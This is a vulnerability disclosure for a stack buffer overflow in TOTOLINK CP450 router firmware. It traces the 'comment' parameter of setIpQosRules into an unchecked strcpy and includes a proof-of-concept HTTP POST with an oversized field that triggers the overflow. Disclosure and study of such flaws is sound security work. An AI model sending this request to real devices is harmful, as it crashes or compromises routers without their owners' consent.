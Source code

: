 ## CP450 stack buffer overflow

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

In the function `setIpQosRules`, attackers can post the parameter `comment` to `v10` without checking its' length. 

![image-20240421163827190](./img/1.png)

Then in line 25, the call to function `strcpy` will lead to stack overflow.

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 312
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/firewall/qos.asp
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setIpQosRules",
    "comment": "a"*0x100
}
```

![image-20240421163827190](./img/2.png)
